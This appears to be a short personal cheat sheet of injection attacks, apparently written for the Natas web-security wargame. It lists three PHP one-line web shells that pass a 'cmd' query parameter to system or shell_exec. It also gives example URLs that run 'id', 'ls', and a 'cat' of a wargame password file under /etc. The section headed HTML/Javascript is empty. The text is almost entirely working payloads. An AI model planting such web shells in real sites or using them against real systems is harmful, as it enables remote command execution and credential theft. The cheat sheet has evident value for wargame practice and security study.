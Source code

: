 # [Attack] Injection

## php

### Inject exec linux command in query
```php
<?php system($_GET["cmd"]); ?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

```php
<?php echo system($_GET["cmd"]);?>
```

- `http://localhost:8080/shell.php?cmd=id`    
- `http://localhost:8080/shell.php?cmd=ls%20|ls`    
`%20` is the spacing in query    

- `http://localhost:8080/idk.php?cmd=cat  /etc/natas_webpass/natas12`  

## HTML / Javascript


